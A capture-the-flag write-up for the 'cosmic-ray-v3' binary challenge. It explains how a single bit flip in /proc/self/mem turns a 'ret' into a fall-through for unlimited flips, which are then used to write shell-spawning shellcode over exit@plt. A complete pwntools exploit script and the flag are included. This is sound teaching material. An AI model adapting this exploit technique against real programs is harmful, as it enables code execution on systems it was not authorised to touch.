

# cosmic-ray-v3 \[468 Points] (69 Solves)
```
I promise it's the last one. The grand finale to the cosmic trinity. Good luck!
```
Attached is [dist/](./dist)

---

## Writeup
Decompiling the binary, we find the following function (named `cosmic_ray`)
```c
puts("Enter an address to send a cosmic ray through:");
__isoc99_scanf("0x%lx",&local_30);
/* snip */

local_10 = open("/proc/self/mem",2);
lseek(local_10,local_30,0);
read(local_10,&local_25,1);
/* snip */

puts("Enter the bit position to flip:");
__isoc99_scanf(&DAT_00402098,&local_24);
getchar();

if ((-1 < local_24) && (local_24 < 8)) {
  local_20 = flip_bit(local_18,local_24);
  local_26 = binary_to_byte(local_20);

  putchar('\n');
  printf("Bit succesfully flipped! New value is %d\n\n",(ulong)(uint)(int)local_26);
  lseek(local_10,local_30,0);
  write(local_10,&local_26,1);
  return 0;
}

exit(1)
```
As you can see, we **load the memory of the process itself**, and allowing the user
to **flip any one bit in the memory**. \
This is of course a reference to actual cosmic rays randomly flipping a bit in
old hardware and causing problems.[^1]

Alright, so using _**one**_ flipped bit we need to get RCE. _How do we know what bit to
flip though?_

Interestingly, this challenge **isn't the first iteration of the idea**, and luckily,
my teammate, [ItayB](https://itaybel.github.io/), who solved the v2 last year,
recognized it, and shared [his writeup](https://itaybel.github.io/vsctf2023chals/#cosmic-ray-v2)
with me.

So last year, ItayB used the one bit flip to change _the address in a `jz` of a
canary_ check to get **infinite flips**. With infinite flips he then wrote shellcode
to `plt` of exit.

Ok, but this year we don't have a canary check. But it's clear **we want to get
more flips!**

After looking for some time at the disassembly to find what we could flip, I
noticed a crucial flaw in the challenge \
 \
**The `cosmic_ray` is right above main!**

_**If only we could change the `ret` into anything else**_, that instead of **returning**,
would **fall-through back into main**, we would basically create a recursive infinite
loop!

I converted the `ret` instruction to a binary representation, and eventually,
found a suitable bit to flip
```py
>>> from pwn import *
>>> context.arch = 'amd64'
>>> bin(asm('ret')[0])
'0b11000011'
>>> disasm(bytes([0b01000011])) # flipped the left most bit
'   0:   43                      inc    ebx'
```
`inc ebx` - won't crash the code and allows the code to continue running downwards. \
Thus flipping this bit, would make **`cosmic_ray` loop back into main
and allow us to get infinite flips!**

From here, similar to ItayB's solve, I dumped with `gdb` the bytes of exit@plt,
(using `x/100b 0x4011a0`) and used them to calculate which bits I should flip to
get the shellcode. \
When the shell code is ready, all is left is to call `exit` and get the sweet RCE!

```py
io = start()

exit_bytes = [0xf3, 0x0f, 0x1e, 0xfa, 0xf2, 0xff, 0x25, 0x5d, 0x2e, 0x00, 0x00, 0x0f, 0x1f, 0x44, 0x00, 0x00, 0xf3, 0x0f, 0x1e, 0xfa, 0x31, 0xed, 0x49, 0x89, 0xd1, 0x5e, 0x48, 0x89, 0xe2, 0x48, 0x83, 0xe4, 0xf0, 0x50, 0x54, 0x45, 0x31, 0xc0, 0x31, 0xc9, 0x48, 0xc7, 0xc7, 0xab, 0x15, 0x40, 0x00, 0xff, 0x15, 0x3b, 0x2e, 0x00, 0x00, 0xf4, 0x66, 0x2e, 0x0f, 0x1f, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0xf3, 0x0f, 0x1e, 0xfa, 0xc3, 0x66, 0x2e, 0x0f, 0x1f, 0x84, 0x00, 0x00, 0x00, 0x00, 0x00, 0x90, 0xb8, 0x10, 0x40, 0x40, 0x00, 0x48, 0x3d, 0x10, 0x40, 0x40, 0x00, 0x74, 0x13, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x48, 0x85]
exit_address = 0x401180
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    io.recvuntil(b"through:\n")

    io.sendline(hex(address).encode())
    io.recvuntil(b"flip:")
    io.sendline(str(bit).encode())


flip(0x4015aa, 0) # Flip the MSB (bit number 0) to change RET into `inc ebx`

curr_address = exit_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(exit_bytes[i])[2:]

    # Fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
    curr_address += 1

flip(0, -1) # Trigger exit@plt and thus the shellcode

io.interactive()
```

[solve.py](./solve.py)

### Success!

**Flag:** `vsctf{4nd_th3_st4r5_4l1gn_0nc3_m0r3}`

[^1]: https://en.wikipedia.org/wiki/Soft_error
